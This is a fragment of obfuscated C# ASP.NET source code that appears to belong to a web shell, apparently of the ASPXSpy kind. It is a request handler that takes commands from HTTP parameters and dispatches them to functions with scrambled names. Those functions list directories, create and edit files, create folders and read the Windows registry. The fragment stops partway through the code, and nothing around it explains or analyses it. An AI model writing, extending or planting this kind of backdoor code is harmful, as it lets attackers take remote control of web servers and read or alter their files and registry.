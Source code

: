 string tkI=Request["__EVENTTARGET"];
string VqV=Request["__File"];
if(tkI!="")
{
switch(tkI)
{
case "Bin_Parent":
krIR(Ebgw(VqV));
break;
case "Bin_Listdir":
krIR(Ebgw(VqV));
break;
case "kRXgt":
kRXgt(Ebgw(VqV));
break;
case "Bin_Createfile":
gLKc(VqV);
break;
case "Bin_Editfile":
gLKc(VqV);
break;
case "Bin_Createdir":
stNPw(VqV);
break;
case "cYAl":
cYAl(VqV);
break;
case "ksGR":
ksGR(Ebgw(VqV));
break;
case "SJv":
SJv(VqV);
break;
case "Bin_Regread":
tpRQ(Ebgw(VqV));
break;
case "hae":
hae();
break;
case "urJG":
urJG(VqV);
break;
}
if(tkI.StartsWith("dAJTD"))
{
dAJTD(Ebgw(tkI.Replace("dAJTD","")),VqV);
}
else if(tkI.StartsWith("Tlvz"))
{
Tlvz(Ebgw(tkI.Replace("Tlvz","")),VqV);
}
else if(tkI.StartsWith("Bin_CFile"))
{
YByN(Ebgw(tkI.Replace("Bin_CFile","")),VqV);
}
}
}
else
{
PBZw();
}
}
public bool pdo()
{